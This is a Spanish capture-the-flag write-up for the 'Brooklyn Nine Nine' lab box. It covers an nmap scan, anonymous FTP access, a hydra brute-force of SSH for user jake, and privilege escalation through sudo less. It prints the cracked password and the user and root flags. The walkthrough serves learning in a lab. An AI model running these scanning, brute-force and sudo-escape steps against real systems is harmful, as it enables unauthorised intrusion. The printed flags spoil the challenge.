



# Brooklyn Nine Nine

## Escaneo de puertos

Lanzamos un mapeo de puertos y servicios con `nmap`:

```bash
sudo nmap -sV -T4 -p- 10.10.93.36
```

Los puertos abiertos son:

* 21: FTP (vsftpd)
* 22: SSH (OpenSSH)
* 80: HTTP (Apache httpd)


## Acceso por FTP

Nos conectamos al FTP como `anonymous` y encontramos una nota para Jake:


Descargamos el archivo:

```bash
get note_to_jake.txt
```



Revisamos el contenido, que sugiere credenciales débiles para Jake:


## Ataque de fuerza bruta

Ejecutamos `hydra` contra SSH con el usuario `jake`:

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.93.36
```

La contraseña es **987654321**.


## Acceso por SSH

Accedemos como `jake`:

```bash
ssh jake@10.10.93.36
```


Inspeccionamos los usuarios y vemos que `holt` tiene la flag:



```
ee11cbb19052e40b07aac0ca060c23ee
```

## Escalada de privilegios

Comprobamos los comandos sudo permitidos:

```bash
sudo -l
```


Vemos que podemos usar `less` sin contraseña. Según GTFObins, `less` puede ejecutar un shell.


Obtenemos la flag de root:

```bash
sudo less /root/root.txt
```



```
63a9f0ea7bb98050796b649e85481845
```
